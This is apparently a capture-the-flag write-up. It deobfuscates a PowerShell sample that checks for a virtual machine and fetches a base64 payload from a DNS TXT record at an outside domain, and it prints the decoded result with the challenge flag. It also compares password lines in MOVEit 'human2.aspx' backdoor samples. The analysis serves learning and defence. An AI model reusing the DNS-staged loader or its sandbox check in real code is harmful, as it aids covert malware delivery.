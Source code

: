 This looks like obfuscated powershell based on the presence of some noticable strings such as `CoMSpEc`, `vERboSEpreFeRenCe`, or `[rEGeX]::mAtcheS`. I used a tool called [PowerDecode](https://github.com/Malandrone/PowerDecode) to attempt to deobfuscate it and got the following script:

```
try {
    $TGM8A = Get-WmiObject MSAcpi_ThermalZoneTemperature -Namespace "root/wmi" -ErrorAction 'silentlycontinue'; 
    if ($error.Count -eq 0) { 
        $5GMLW = (Resolve-DnsName eventlog.zip -Type txt | ForEach-Object { $_.Strings }); 
        if ($5GMLW -match '^[-A-Za-z0-9+/]*={0,3}$') { 
            [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($5GMLW)) | Write-Host 
        } 
    } 
    } catch { }
```

It did an amazing job, right? Anyway, it looks to be querying a TXT DNS record from the domain `eventlog.zip` (yes, .zip is now a valid TLD!). I ran a dig query to see what was there:

```
$ dig -t TXT eventlog.zip

; <<>> DiG 9.18.12-0ubuntu0.22.04.3-Ubuntu <<>> -t TXT eventlog.zip
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 9491
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 1232
;; QUESTION SECTION:
;eventlog.zip.			IN	TXT

;; ANSWER SECTION:
eventlog.zip.		3600	IN	TXT	"U3RhcnQtUHJvY2VzcyAiaHR0cHM6Ly95b3V0dS5iZS81NjFubmQ5RWJzcz90PTE2IgojZmxhZ3s0MDk1MzczNDdjMmZhZTAxZWY5ODI2YzI1MDZhYzY2MH0jCg=="
```

The Base64-encoded TXT record returns:

```
Start-Process "https://youtu.be/561nnd9Ebss?t=16"
#flag{409537347c2fae01ef9826c2506ac660}#
```

## HumanTwo
This was a large collection of `human2.aspx` backdoors from the MOVEIt incident. I ran a diff on a few of them and the only lines that differed were in the `Page_load()` function on line 36. For example:

```
if (!String.Equals(pass, "24068cbf-de5f-4cd2-9ad6-ba7cdb7bbfa9"))
if (!String.Equals(pass, "3b321587-d075-4221-9628-b6c8959841df"))
```
